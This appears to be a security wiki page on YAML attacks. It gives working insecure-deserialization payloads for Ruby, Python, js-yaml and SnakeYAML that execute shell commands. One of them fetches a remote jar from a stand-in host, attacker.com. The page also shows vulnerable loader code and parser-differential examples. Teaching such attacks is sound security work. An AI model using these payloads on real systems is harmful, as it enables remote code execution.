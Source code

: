 ```yaml
---
description: Yet Another Markup Language
---
```


# YAML

## Description

First of all, this great article explains all sorts of tricks and weirdness in YAML:

{% embed url="https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell" %}
Explanation and examples of many YAML tricks
{% endembed %}

## Insecure Deserialization

In YAML the `!` character can mean a **tag**, which allows you to execute a function in the host language with a parameter that comes right after (because why not). Many parsers implement this as it is required by the spec, but if attackers have control over the YAML file, even partially, they can use these tags to run arbitrary functions with arbitrary arguments.&#x20;

A common target for this is a function that executes shell commands, where you can gain Remote Code Execution. The following examples all execute the `id` command and allow you to execute any arbitrary commands:

### Ruby

{% code title="Vulnerable Code" %}
```ruby
require "yaml"

YAML.load(File.read("data.yml"))
```
{% endcode %}

#### Payload (>2.7, [source](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/))

{% code title="data.yml" %}
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```
{% endcode %}

### Python

{% code title="Vulnerable Code" %}
```python
from yaml import Loader, load

deserialized = load(open('data.yml'), Loader=Loader)
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
!!python/object/apply:os.system
- "id"
```
{% endcode %}

### JavaScript - `js-yaml` (<4.0)

This popular JavaScript library allows the creation of arbitrary functions like `.toString()` which can be called accidentally, when using `load()` instead of `safeLoad()` in versions below 4:

{% code title="Vulnerable Code" %}
```javascript
const yaml = require('js-yaml');
const fs = require('fs');

const res = yaml.load(fs.readFileSync('data.yml'));
console.log(res + "")  // Calls .toString() as trigger
```
{% endcode %}

#### Payloads

{% code title="data.yml" %}
```yaml
"toString": !<tag:yaml.org,2002:js/function> "function (){console.log(process.mainModule.require('child_process').execSync('id').toString())}"
```
{% endcode %}

{% code title="data.yml" %}
```yaml
toString: !!js/function >
  function () {
      console.log(process.mainModule.require('child_process').execSync('id').toString())
  }
```
{% endcode %}

### Java - SnakeYAML (<2.0)

{% embed url="https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471" %}
Walkthrough of vulnerability as theory and exploitability
{% endembed %}

{% code title="Vulnerable Code" %}
```java
import org.yaml.snakeyaml.Yaml;

Yaml yaml = new Yaml();
FileInputStream fis = new FileInputStream("data.yml");
Map<String, Object> parsed = yaml.load(fis);
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
some_var: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://attacker.com/payload.jar"]
    ]]
]
```
{% endcode %}

`/payload.jar` file:

1. [Explanation](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) (search "remote jar file")
2. [Proof of Concept](https://github.com/jordyv/poc-snakeyaml) with `build.sh` script (change [`exec()`](https://github.com/jordyv/poc-snakeyaml/blob/master/src/pocsnakeyaml/PocScriptEngineFactory.java#L18))

## Parser differentials

The complex nature of YAML makes parsing it consistently a hard task. This results in slight differences between implementations that may confuse a _check_ and a _use_. Below is an example that results in `lang: ...` with 3 different values depending on which language's standard library parses it.

```yaml
lang: Python
!!binary bGFuZw==: Go
!binary bGFuZw: Ruby
```

Another more extreme example that requires some specific features supports a lot more languages ([by @taramtrampam](https://gist.github.com/taramtrampam/fca4e599992909b48a3ba1ce69e215a2)):

```yaml
!!binary bGFuZx==: ruby
!!binary lang: rust
!!binary bGFuZy==: node
alias-lang: &lang !!binary bGFuZz==
? *lang
: go
alias-lang2: !!str &lang2 lang
<<: [
  {
    ? *lang2 : java,
  },
]
!!merge qwerty: {lang: "python"}
```

Watch ["Parser Differentials - joernchen at OffensiveCon 2025"](https://www.youtube.com/watch?v=Dq_KVLXzxH8) to learn more.

